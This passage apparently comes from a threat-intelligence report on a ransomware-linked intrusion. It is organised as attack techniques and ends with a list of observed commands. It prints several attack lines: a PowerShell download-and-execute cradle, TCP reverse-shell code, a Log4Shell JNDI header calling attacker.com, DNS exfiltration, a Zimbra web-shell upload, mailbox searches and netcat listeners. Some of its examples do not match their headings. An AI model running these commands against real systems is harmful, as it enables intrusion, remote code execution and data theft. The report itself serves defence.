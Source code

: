     *   **Living Off the Land**: Maximizing the use of built-in Windows binaries like rundll32, msiexec, and PowerShell for stealth.
*   **Command and Control (C2)**
    *   **Application Layer Protocol**: TCP connections are established via PowerShell and `New-Object System.Net.Sockets.TcpClient` to communicate with C2 servers.
        *   Example:

            *   `$targetTcp = New-Object System.Net.Sockets.TcpClient($ipaddress, $port)`.
    *   **Ingress Tool Transfer**: Tools are downloaded using PowerShell and curl.
        *   Example:

            *   `powershell -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://dns.stager.domain/payload')"`.
    *   **Modular C2 Infrastructure**: Flexible C2 is built using Cobalt Strike and Rclone for beaconing, with fallback mechanisms via netcat and SSH.
*   **Exfiltration**
    *   **Data Exfiltration**: Rclone, curl, and bitsadmin are used for data exfiltration.
        *   Example:

            *   `curl -X GET ‘https://vulnerableapp.com/api' -H ‘User-Agent: ${jndi:ldap://attacker.com/a}’`.
    *   **Cloud Storage**: Data is exfiltrated to cloud services like MEGA.io.
        *   Example:

            *   `nslookup payload.txt attacker-dns-server.com`.
*   **Impact**
    *   **Data Encrypted for Impact**: Use of Black Basta ransomware to encrypt the data.
    *   **Volume Shadow Copies**: Volume shadow copies are deleted to hinder recovery.
    *   **Service Disruption**: Services are killed to maximize impact.

### Observed commands

*   PowerShell Get-VM / Stop-VM commands
*   curl ipinfo.io/json targeting IP
*   `powershell iwr hxxp://149[.]28[.]105[.]251:801/download/HK_DNS_x64_n1_x64_inf.dll`
*   `/opt/zimbra/bin/zmprov -l gaa`
*   `/opt/zimbra/bin/zmmailbox -z -m user@domain.com s -t message -l 10 “in:Inbox From:@binance.com”`
*   `curl -i -s -k -X ‘GET’ -H ‘Host: 91.204.248.6’ -b ‘JACTION=Q00=; JCMD=aXAgYQ==; JSESSIONID=dmJwdHh4…’ https://91.204.248.6/zimbraAdmin/public/jsp/ZimbraAdmin.jsp`
*   `Start-Process $PSHOME\powershell.exe -ArgumentList {$client = New-Object System.Net.Sockets.TCPClient(‘17x.6x.1xx.242)}`
*   `python3 shell.py — base_url=”zimbraAdmin/public/jsp” — web_shell_filename=”ZimbraAdmin.jsp” — key vbptxxwjdxsfrgzgeudtfffawmbcbhcx — target https:`
*   `reverse 1X.2X.3X.255 3434 /usr/lib/sftp`
*   `nc -lvp 3439`
*   ```
    @echo off
    set fileName=ci.txt
    echo CHECK AV >> %fileName% 2>&1
    WMIC /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName,productState /Format:List >> %fileName% 2>&1
    echo GET SYSTEMINFO >> %fileName% 2>&1
    systeminfo >> %fileName% 2>&1
    ```
    